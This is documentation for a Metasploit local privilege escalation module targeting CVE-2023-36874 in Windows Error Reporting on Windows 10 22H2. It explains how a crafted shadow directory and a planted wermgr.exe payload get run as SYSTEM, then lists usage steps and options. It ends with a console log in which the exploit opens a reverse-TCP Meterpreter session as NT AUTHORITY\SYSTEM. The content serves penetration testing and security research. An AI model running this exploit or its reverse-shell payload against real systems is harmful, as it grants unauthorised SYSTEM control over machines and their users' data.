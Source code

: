 ## Vulnerable Application
This module works only on Windows 10x64 22H2

### Introduction

This module takes advantage of a bug in the way Windows error reporting opens the report
parser.  If you open a report, Windows uses a relative path to locate the rendering program.
By creating a specific alternate directory structure, we can coerce Windows into opening an
arbitrary executable as SYSTEM.
If the current user is a local admin, the system will attempt impersonation and the exploit will
fail.  Because the payload is added to a directory this module creates, in the event of successful
exploitation, the user will need to delete the payload and the directories containing the payload
manually.

This module will attempt to delete the payload it uploads and the directory structure.

## Installation Instructions
1. Install Windows 10x64 22H2
1. Create a standard user


## Verification Steps

1. Create a session on the target system under the context of a non local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/win_error_cve_2023_36874`.
1. Set the `PAYLOAD` and configure it correctly.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.


## Options

### EXPLOIT_NAME

The filename to use for the exploit binary (%RAND%.exe by default)

### REPORT_DIR

The Error Directory to use (%RAND% by default).

### REPORT_NAME

The Error report name (%RAND% by default).

### SHADOW_DRIVE

Directory to place in the home drive for pivot (%TEMP% by default).

### EXECUTE_DELAY

The number of seconds to delay between file upload and exploit launch.  Default is 3.

## Scenarios

### Windows 10.0.19045.2006 x64 (Windows 10x64 22H2)

```
msf exploit(windows/local/win_error_cve_2023_36874) > run

[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] OS version: Windows 10+ Build 19045
[+] The target appears to be vulnerable.
[*] Shadow Path = C:\NpIWBsCJozK
[*] Attempting to PrivEsc on DESKTOP-V413087 via session ID: 1
[*] C:\ProgramData
[*] Creating C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport
[*] Creating directory C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport
[*] C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport created
[*] Writing Report to C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport\Report.wer
[*] Creating directory C:\NpIWBsCJozK
[*] C:\NpIWBsCJozK created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\
[*] C:\NpIWBsCJozK\ProgramData\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport created
[*] Writing bad Report to C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport\Report.wer
[*] Creating C:\NpIWBsCJozK\system32
[*] Creating directory C:\NpIWBsCJozK\system32
[*] C:\NpIWBsCJozK\system32 created
[*] Writing payload to C:\NpIWBsCJozK\system32\wermgr.exe
[*] shadow_path = NpIWBsCJozK
[*] Exploit uploaded on DESKTOP-V413087 to C:\NpIWBsCJozK\fShpLfYh.exe
[*] Sending stage (200774 bytes) to 10.5.132.118
[+] Deleted C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport
[*] 
[+] Deleted C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\
[*] Meterpreter session 2 opened (10.5.135.201:4444 -> 10.5.132.118:62415) at 2023-09-19 15:43:02 -0500
[-] Failed to delete C:\NpIWBsCJozK\system32: stdapi_fs_delete_dir: Operation failed: The directory is not empty.

meterpreter > sysinfo
Computer        : DESKTOP-V413087
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit

```
